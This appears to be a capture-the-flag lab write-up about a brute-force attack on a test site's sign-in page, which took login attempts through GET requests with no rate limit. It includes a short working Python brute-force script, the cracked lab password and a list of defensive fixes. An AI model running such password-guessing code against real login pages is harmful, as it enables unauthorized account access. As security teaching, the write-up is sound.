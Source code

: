# BRUTE FORCE ATTACK ON SIGN-IN PAGE

## IDENTIFY THE VULNERABILITY

Upon examination, we discovered that the login page, accessible at http://192.168.56.2/?page=signin, allowed an unlimited number of login attempts, and the authentication process was handled through a GET request.

## EXPLOIT THE VULNERABILITY

We executed a brute force attack by repeatedly attempting unauthorized logins using a Python script and a list of commonly used passwords. The script used the requests library to dispatch multiple GET requests to the login page, each time featuring a distinct password. Then, it checked the response to determine if the login was successful. If the wrong answer image was not present in the response, the login was considered successful.

```python
def login(username: str, password: str) -> bool:
    # Build login url
    url = URL + "&username=" + username + "&password=" + password + "&Login=Login#"
    # Try to login
    content = get_request(url)
    if WRONG_ANSWER_IMG in content.decode():
        return False
    # If the wrong answer image is not present, the login was successful
    return True

def test_common_passwords(username: str) -> None:
    # Read passwords list from an external file
    with open(PASSWORDS_FILE_PATH, 'r', encoding='utf-8') as file:
        for line in file:
            password = line.strip()
            result = login(username, password)
            if (result == True):
                return
```

Ultimately, we were able to gain access to the admin account by guessing the password **"shadow"**. With this knowledge, we can log in using any username, granting us access to the flag.

## INFORMATION ON BRUTE FORCE ATTACKS

A brute force attack uses trial-and-error to guess login info, encryption keys, or find a hidden web page. Hackers work through all possible combinations hoping to guess correctly.
In regards to authentication, when no password policy is in place an attacker can use lists of common username and passwords to brute force a username or password field until successful authentication.

## PATCH THE VULNERABILITY

To limit the risks associated with brute force attacks, consider the following measures:

1. Switch to POST Request:

    Prefer using a POST request for login instead of a GET request. This ensures that credentials are sent in the HTTP message body rather than the URL.

2. Implement Password Complexity:

    - Mix uppercase and lowercase letters.
    - Use alphanumeric combinations.
    - Incorporate special characters for added security.

3. Limit Login Attempts:
    
    - Restrict the number of login attempts.
    - Implement IP blocking for repeated failures.
    - Notify users and block accounts after a certain number of unsuccessful attempts.

4. Require Multi-Factor Authentication (MFA):

    Enforce the use of two-factor authentication. 2FA adds an extra layer of security by requiring users to provide two different authentication factors.

5. Utilize CAPTCHA:
    Implement CAPTCHA to differentiate between human and automated login attempts.

6. Deploy a Web Application Firewall (WAF):
    Use a WAF to filter and monitor HTTP traffic, providing an additional layer of protection.

7. Introduce Time Delay:

    Implement time delays between login attempts to slow down brute force attacks.

8. Remove any unused accounts with high-level permissions:

    These are the cyber equivalent of doors with weak locks that make breaking in easy.

## SOURCES

https://www.getastra.com/blog/cms/prevent-brute-force-attack-in-php/
https://www.kaspersky.com/resource-center/definitions/brute-force-attack
